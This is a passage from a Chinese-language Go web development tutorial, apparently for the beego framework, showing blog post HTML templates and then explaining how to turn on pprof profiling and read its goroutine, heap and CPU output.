标题:<input type="text" name="title"><br>
内容：<textarea name="content" colspan="3" rowspan="10"></textarea>
<input type="submit">
</form>
```

edit.tpl

```html
<h1>Edit {{.Post.Title}}</h1>

<h1>New Blog Post</h1>
<form action="" method="post">
标题:<input type="text" name="title" value="{{.Post.Title}}"><br>
内容：<textarea name="content" colspan="3" rowspan="10">{{.Post.Content}}</textarea>
<input type="hidden" name="id" value="{{.Post.Id}}">
<input type="submit">
</form>
```


## 15. 其他

### a. pprof 支持

Go 语言有一个非常棒的设计就是标准库里面带有代码的性能监控工具，在两个地方有包：

```go
net/http/pprof
runtime/pprof
```

其实 net/http/pprof 中只是使用 runtime/pprof 包来进行封装了一下，并在 http 端口上暴露出来。

#### 使用

通过上面的设计，你可以通过如下代码开启pprof：

```go
beego.PprofOn = true
```

然后你就可以在浏览器中打开如下URL就看到如下界面： [](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/images/14.6.pprof.png?raw=true)

图为系统当前 goroutine、heap、thread 信息。

点击 goroutine 我们可以看到很多详细的信息：

[](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/images/14.6.pprof2.png?raw=true)

图为显示当前 goroutine 的详细信息。

我们还可以通过命令行获取更多详细的信息：

```go
go tool pprof http://localhost:8080/debug/pprof/profile
```

这时候程序就会进入 30 秒的 profile 收集时间，在这段时间内拼命刷新浏览器上的页面，尽量让 cpu 占用性能产生数据。

```go
(pprof) top10

Total: 3 samples

   1 33.3% 33.3% 1 33.3% MHeap_AllocLocked

   1 33.3% 66.7% 1 33.3% os/exec.(*Cmd).closeDescriptors

   1 33.3% 100.0% 1 33.3% runtime.sigprocmask

   0 0.0% 100.0% 1 33.3% MCentral_Grow

   0 0.0% 100.0% 2 66.7% main.Compile

   0 0.0% 100.0% 2 66.7% main.compile

   0 0.0% 100.0% 2 66.7% main.run

   0 0.0% 100.0% 1 33.3% makeslice1

   0 0.0% 100.0% 2 66.7% net/http.(*ServeMux).ServeHTTP

   0 0.0% 100.0% 2 66.7% net/http.(*conn).serve	

(pprof)web
```

[](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/images/14.6.pprof3.png?raw=true)

图为展示的执行流程信息。